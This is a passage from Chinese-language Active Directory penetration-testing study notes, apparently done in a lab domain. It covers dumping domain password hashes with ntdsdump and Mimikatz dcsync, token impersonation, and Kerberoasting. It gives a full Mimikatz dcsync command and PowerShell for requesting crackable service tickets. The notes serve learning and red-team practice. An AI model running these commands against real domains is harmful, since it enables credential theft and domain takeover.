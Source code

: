 ```

然后再使用 `ntdsdump.exe` (也有看到直接用的，我只有这样成功...)
![](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/ntdsdump.png)

#### Mimikatz

> 万能的猕猴桃

为啥用Mimikatz能直接dump呢，搬运一下wing仔翻译的文章：

```
Mimikatz有一个功能（dcsync），它利用目录复制服务（DRS）从NTDS.DIT文件中检索密码哈希值。这样子解决了需要直接使用域控制器进行身份验证的需要，因为它可以从域管理员的上下文中获得执行权限。因此它是红队的基本操作，因为它不那么复杂。
```

`mimikatz.exe privilege::debug "lsadump::dcsync /domain:xxcom.local /all /csv" exit`
![](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/mimikatz_ntds.png)

### Access Token

> 基础篇过了一次，实操的时候摸过了，用 msf 下的 incognito。getsystem也是去搜寻可用的令牌进行提权

### Kerberosting

> 这个之前看到，但是没有认真看一下

#### 原理

因为看过Kerberos协议，结合蓝军文章可以简单理解。在Kerberos第二阶段（即与TGS通信）完成时会返回一张ST，ST使用Server端的（当时我说是NLTM Hash）密码进行加密。当 Kerberos 协议设置票据为 **RC4** 方式时，我们就可以通过爆破在Client端获取的票据ST，获取对应的Server端的密码。（学到了，很开心）

#### 实操

首先安装一个 `mssql` ，注册 spn 服务，`setspn -A MSSQLSvc/web.xxcom.local xxcom\web`，注意需要为本地管理员权限，否则会提示权限不足
![](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/spn_reg.png)

先查询 SPN，上面已经介绍过，查询看到刚刚注册的 MSSQL
![](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/spn_query.png)

运行Add-type时报错，其实为缺少依赖，为了节省时间直接换到DC上去操作

![](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/spn_error.png)

```powershell
$SPNName="MSSQLSvc/web.xxcom.local"
Add-Type -AssemblyNAme System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $SPNName
```

![](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/spn_klist.png)
